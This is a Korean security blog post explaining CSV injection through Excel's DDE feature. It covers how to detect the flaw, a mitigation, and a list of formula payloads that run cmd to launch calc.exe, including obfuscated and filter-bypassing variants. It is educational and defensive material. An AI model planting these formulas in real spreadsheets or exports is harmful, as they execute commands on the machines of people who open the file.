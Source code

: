 ```yaml
---
layout: post
title: CSV Injection
subtitle: Dynamic Data Exchange를 활용한 악성 CSV File 생성
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Excel
  - CSV
  - DDE
  - Formula_Injection
sidebar:
---
```

## Intro
>🚨
>현재는 사용자가 DDE 작동 허용 설정을 하더라도 DDE가 포함된 CSV 파일을 열 때, Excel 경고창이 나타도록 되어있어 사회 공학적 요소도 필요한 공격 방법입니다.

Formula Injection 취약점 내 한 종류로 분류되는 CSV Injection은 일반적으로 CSV Export 등과 같은 CSV File Download 기능에서 발생됩니다.   
☑️간혹 잘못된 로직으로 .xlsx 생성 시에 발생하기도 합니다.   

발생 원리는 DDE(Dynamic Data Exchange)라는 Window 운영체제에서 응용 프로그램 간 데이터 전송을 위해 사용되는 기능이 악의적으로 작동됨에 기반합니다.

## Detect & Exploit 
### Detect
사용자 입력 값이 CSV File Download 시 반영되는 지 확인하고, 악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞 부분에 위치할 수 있는 지 확인하면 됩니다.   

### Exploit
탐지한 부분에 악성 DDE를 삽입하여 작동 여부를 살펴보면 됩니다.
```Excel
#Basic Payload
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
=cmd|' /C calc'!'A1'

#Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

#Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```
## Security Measures
악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞부분에 위치할 수 없도록 `Space`, `'` 등을 가장 앞에 삽입하여 조치하면 됩니다.
```Excel
'=2+5+cmd|' /C calc'!A0
 =cmd|' /C calc'!'A1'
```
## References
[Formula/CSV/Doc/LaTeX/GhostScript Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)   
[OWASP-CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)   
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection)